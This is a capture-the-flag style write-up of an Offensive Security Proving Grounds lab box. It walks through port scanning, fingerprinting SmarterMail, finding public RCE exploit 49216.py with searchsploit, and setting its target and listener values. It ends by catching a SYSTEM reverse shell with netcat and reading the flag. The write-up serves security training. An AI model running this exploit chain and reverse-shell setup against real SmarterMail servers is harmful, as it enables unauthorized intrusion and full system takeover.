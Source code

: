 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# discovery

Performing a full `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- -sV 192.168.162.65
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-08 14:26 EST
Nmap scan report for 192.168.162.65
Host is up (0.029s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
7680/tcp  open  tcpwrapped
9998/tcp  open  http          Microsoft IIS httpd 10.0
17001/tcp open  remoting      MS .NET Remoting services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 225.25 seconds
```

## smartermail
Different smartermail services are available on the machine
- 'normal' web interface on 9998
- `API` interface on port 17001
- `FTP` interface on port 21
- blank page on port 80

The smartermail version is exposed via the source code of the login page:
```javascript
...
<script>
		var htmlCacheBustQs = "cachebust=100.0.6919.30414.8d65fc3f1d47d00";
		var languageCacheBustQs = "cachebust=8d65fc3f1d47d00";
		var angularLangList = ['cs','da','de','en','en-GB','es','fa','fr','it','nl','pt','pt-BR','sv','tr','zh-CN','zh-HK','zh-TW'];
		var angularLangMap = {'cs': 'cs', 'da': 'da', 'de': 'de', 'en': 'en', 'en-GB': 'en-GB', 'es': 'es', 'fa': 'fa', 'fr': 'fr', 'it': 'it', 'nl': 'nl', 'pt': 'pt', 'pt-BR': 'pt-BR', 'sv': 'sv', 'tr': 'tr', 'zh-CN': 'zh-CN', 'zh-HK': 'zh-HK', 'zh-TW': 'zh-TW', 'cs*': 'cs', 'da*': 'da', 'de*': 'de', 'en*': 'en', 'es*': 'es', 'fa*': 'fa', 'fr*': 'fr', 'it*': 'it', 'nl*': 'nl', 'pt*': 'pt', 'sv*': 'sv', 'tr*': 'tr', 'zh*': 'zh-CN'};
		var angularLangNames = [{v:'cs',n:'čeština'},{v:'da',n:'dansk'},{v:'de',n:'Deutsch'},{v:'en',n:'English'},{v:'en-GB',n:'English (United Kingdom)'},{v:'es',n:'español'},{v:'fa',n:'فارسی'},{v:'fr',n:'français'},{v:'it',n:'italiano'},{v:'nl',n:'Nederlands'},{v:'pt',n:'português'},{v:'pt-BR',n:'português (Brasil)'},{v:'sv',n:'svenska'},{v:'tr',n:'Türkçe'},{v:'zh-CN',n:'中文(中国)'},{v:'zh-HK',n:'中文(香港特別行政區)'},{v:'zh-TW',n:'中文(台灣)'}];
		var cssVersion = "100.0.6919.30414.8d65fc3f1d47d00";
		var stProductVersion = "100.0.6919";
		var stProductBuild = "6919 (Dec 11, 2018)";
		var stSiteRoot = "/";
		var stThemeVersion = "100.0.6919.30414.8d65fc3f1d47d00";
		var debugMode = 0;

		function cachebust(url) {
			if (!url) return null;
			var separator = url.indexOf("?")==-1 ? "?" : "&";
			return url + separator + htmlCacheBustQs;
		}
	</script>
...
```
> Smartermail version 6919 (Dec 11, 2018)
{: .prompt-info }

---

# exploitation
## general
- `FTP` allows anonynmous login
- `log` files available on the server

## looking for smartermail exploits
```bash
$ searchsploit smartermail
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
SmarterMail 16 - Arbitrary File Upload                                                                                                          | multiple/webapps/48580.py
SmarterMail 7.1.3876 - Directory Traversal                                                                                                      | windows/remote/15048.txt
SmarterMail 7.3/7.4 - Multiple Vulnerabilities                                                                                                  | asp/webapps/16955.txt
SmarterMail 8.0 - Multiple Cross-Site Scripting Vulnerabilities                                                                                 | asp/webapps/16975.txt
SmarterMail < 7.2.3925 - LDAP Injection                                                                                                         | asp/webapps/15189.txt
SmarterMail < 7.2.3925 - Persistent Cross-Site Scripting                                                                                        | asp/webapps/15185.txt
SmarterMail Build 6985 - Remote Code Execution                                                                                                  | windows/remote/49216.py
SmarterMail Enterprise and Standard 11.x - Persistent Cross-Site Scripting                                                                      | asp/webapps/31017.php
smartermail free 9.2 - Persistent Cross-Site Scripting                                                                                          | windows/webapps/20362.py
SmarterTools SmarterMail 4.3 - 'Subject' HTML Injection                                                                                         | php/webapps/31240.txt
SmarterTools SmarterMail 5.0 - HTTP Request Handling Denial of Service                                                                          | windows/dos/31607.py
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
> `smarterMail Build 6985 - Remote Code Execution`: `windows/remote/49216.py`
{: .prompt-info }

## configurate the exploit
```python
...
HOST='192.168.187.65'
PORT=17001
LHOST='192.168.49.187'
LPORT=445
...
```

## exploit the server
### start listener on attacker machine
```bash
$ nc -nlvp 445
listening on [any] 445 ...
```

### execute the exploit
```bash
$ python3 49216.py
```

### catch connect from target server
```bash
nc -nlvp 445
listening on [any] 445 ...
connect to [192.168.49.187] from (UNKNOWN) [192.168.187.65] 49688
whoami
nt authority\system
PS C:\Windows\system32>
```

> Yes! We got a shell.
{: .prompt-info }

---

# post exploitation
## get the flag
```bash
PS C:\users\administrator\Desktop> type proof.txt
7******************************e
```

Pwned! <@:-)
